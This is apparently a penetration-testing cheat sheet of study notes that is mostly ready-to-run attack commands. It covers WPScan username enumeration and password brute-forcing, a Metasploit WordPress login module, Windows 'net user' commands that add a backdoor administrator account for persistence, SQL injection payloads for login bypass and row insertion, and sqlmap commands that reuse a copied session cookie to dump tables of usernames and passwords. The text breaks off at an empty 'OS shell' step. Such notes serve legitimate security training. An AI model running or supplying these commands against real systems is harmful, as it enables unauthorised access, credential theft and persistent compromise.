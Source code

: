 ### Enumerate a Web Application using WPscan &#x20;

```
wpscan --url http://10.10.10.10:8080/NEW --enumerate username  
```

Then type msfconsole to open metasploit and use:

```
use auxiliary/scanner/http/wordpress_login_enum
show options
set PASS_FILE /home/attacker/Desktop/Wordlist/password.txt
set RHOSTS 10.10.10.10  (target ip)
set RPORT 8080          (target port)
set TARGETURI http://10.10.10.10:8080/
set USERNAME admin
```

Brute Force Using WPScan

{% code overflow="wrap" %}
```
wpscan --url http://10.10.10.10:8080/NEW --usernames userlist.txt, --passwords passwdlist.txt
wpscan --url http://10.10.10.10:8080/NEW -u root -P passwdfile.txt (Use this only after enumerating the username)
```
{% endcode %}

Add user for persistence (Command Injection):

```
net user  (Find users)
dir C:\  (directory listing)
net user Test/Add  (Add a user)
net user Test      (Check a user)
net localgroup Administrators Test/Add   (To convert the test account to admin)
net user Test      (Once again check to see if it has become administrator)
```

Now you can do an RDP connection with the given ip and the Test account which you created.

## SQL Injections

{% code overflow="wrap" %}
```
1- Auth Bypass:  
hi'OR 1=1 --

2- Insert new details if sql injection found in login page in username tab enter: 
blah';insert into login values('john','apple123');--

3- Exploit a Blind SQL Injection: 
In the website profile, do inspect element and in the console tab write -  
document.cookie
Then copy the cookie value that was presented after this command. 
Then go to terminal and type this command:
sqlmap -u "http://www.xyz.com/profile.aspx?id=1" --cookie="[cookie value that you copied and don't remove square brackets]" --dbs

4- Command to check tables of database retrieved:  
sqlmap -u "http://www.xyz.com/profile.aspx?id=1" --cookie="[cookie value that you copied and don't remove square brackets]" -D databasename --tables

5- Select the table you want to dump:  
sqlmap -u "http://www.xyz.com/profile.aspx?id=1" --cookie="[cookie value that you copied and don't remove square brackets]" -D databasename -T Table_Name --dump   (Get username and password)

6- For the OS shell this is the command:   
```